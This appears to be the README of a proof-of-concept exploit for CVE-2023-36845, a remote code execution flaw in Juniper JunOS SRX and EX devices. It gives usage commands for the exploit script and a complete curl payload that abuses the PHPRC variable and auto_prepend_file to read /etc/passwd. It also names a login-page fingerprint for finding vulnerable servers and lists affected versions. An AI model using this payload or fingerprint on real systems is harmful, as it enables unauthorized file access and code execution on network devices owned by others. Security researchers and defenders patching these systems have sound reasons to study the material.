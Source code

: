 #CVE-2023-36845 
#RCE in Juniper JunOS within SRX and EX Series, CVSS: 9.8

<img width="917" alt="Screenshot 2023-11-16 at 17 53 47" src="https://github.com/FerdiGul/POC/assets/17753652/b2e60b5d-3444-4a61-955f-24f4815562f4">

Related CVEs: CVE-2023-36844, CVE-2023-36845, CVE-2023-36846, CVE-2023-36847, and CVE-2023-36851                                             

Usage of ./exploit_CVE-2023-36845.py:

  -h help
  -u Target URL
    	python3 exploit_CVE-2023-36845.py -u http://example.com


Through skillful manipulation of a tailored request to configure the PHPRC variable, an attacker gains the ability to modify the PHP execution environment, facilitating the injection and execution of code.

To verify the vulnerability on your system, you can also use the code snippet below:
$ curl <Target_URL> -F $'auto_prepend_file="/etc/passwd\n"' -F 'PHPRC=/dev/fd/0'

In addition, based on my examinations so far, it is advisable to be particularly cautious with servers containing the character "#js2nr0px1R2" assigned to the variable "document.login.password.value" embedded in the web server script as well. So, in my observations, I have noticed that all instances I have examined with this characteristic are vulnerable for now.

Affected versions:
All versions prior to 20.4R3-S9;
21.1 version 21.1R1 and later versions;
21.2 versions prior to 21.2R3-S7;
21.3 versions prior to 21.3R3-S5;
21.4 versions prior to 21.4R3-S5;
22.1 versions prior to 22.1R3-S4;
22.2 versions prior to 22.2R3-S2;
22.3 versions prior to 22.3R2-S2, 22.3R3-S1;
22.4 versions prior to 22.4R2-S1, 22.4R3;
23.2 versions prior to 23.2R1-S1, 23.2R2.


Install Requirements:

$ pip install -r requirements.txt


Run the exploit script:

$ python3 exploit_CVE-2023-36846.py -h
$ python3 exploit_CVE-2023-36845.py -u http://example.com
